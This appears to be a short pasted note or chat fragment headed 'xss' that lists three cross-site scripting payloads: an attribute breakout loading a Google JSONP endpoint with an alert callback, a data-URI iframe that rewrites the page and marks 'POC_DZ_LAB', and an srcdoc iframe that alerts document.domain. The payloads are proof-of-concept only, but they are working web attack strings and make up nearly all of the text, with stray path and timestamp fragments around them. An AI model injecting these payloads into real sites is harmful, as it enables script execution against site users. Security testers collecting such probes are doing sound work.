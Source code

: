 # xss
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/{{1330+7}} POC_DZ_LAB/"></script>'></iframe>
NEW
[5:16 PM]
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
